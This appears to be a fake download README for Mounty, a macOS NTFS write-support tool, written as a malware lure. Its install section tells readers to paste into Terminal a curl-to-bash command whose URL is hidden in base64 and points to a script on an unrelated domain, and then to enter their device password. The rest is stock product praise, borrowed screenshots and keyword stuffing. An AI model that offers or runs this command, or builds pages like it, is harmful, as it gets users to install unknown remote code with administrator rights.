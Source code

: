 # Mounty Download for Mac – NTFS Write Support for macOS

![Mounty Screenshot](https://iboysoft.com/images/en-ntfs-for-mac/mounty-for-ntfs/summary-mounty-for-ntfs.jpeg)

---

### 🔽 Download Mounty for Mac

> 📥 Open the terminal on your device and paste the command below.
1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is Mounty for Mac?

Mounty is an essential utility tool designed specifically for macOS users who need full read-write access to NTFS-formatted external drives. As many external storage devices use the NTFS file system by default (common in Windows environments), Mac users often face limitations since macOS only provides read-only access to NTFS drives out of the box. Mounty elegantly solves this problem by enabling seamless write capabilities without requiring additional drivers or complex configurations.

This lightweight application features an intuitive interface that automatically detects NTFS drives when connected to your Mac. With just one click, Mounty remounts the drive with full read-write permissions, allowing you to freely transfer files, edit documents, and manage content just like you would with native macOS drives. Unlike other solutions that require paid licenses or system modifications, Mounty offers this functionality completely free of charge while maintaining system stability and security.

Advanced users will appreciate Mounty's background monitoring that keeps drives properly mounted during extended work sessions. The application is particularly valuable for professionals working in cross-platform environments, including video editors transferring large media files, developers sharing project resources, or business users collaborating on documents between Windows and macOS systems. With regular updates ensuring compatibility with the latest macOS versions (including Ventura and Sonoma), Mounty remains the most reliable NTFS solution for Mac users worldwide.

![Mounty UI](https://iboysoft.com/images/de-product-ibd/version-3/main-interface.jpg)

---

## Key Features & Benefits

- 🚀 Full NTFS write support on macOS
- 🔌 Automatic drive detection and mounting
- ⚡️ Simple one-click operation
- 🛠 No kernel extensions or system modifications
- 💻 Lightweight and energy efficient

Perfect solution for cross-platform file management between Mac and Windows.

---

## 🔍 Keywords

Mounty for Mac, Mounty Mac Download, Mounty for Mac Download, Mounty Mac, Mounty Download Mac, Mounty Download for Mac, Mounty full version, Mac Download Mounty, Download Mac Mounty, Download Mounty Mac, Download Mounty for Mac

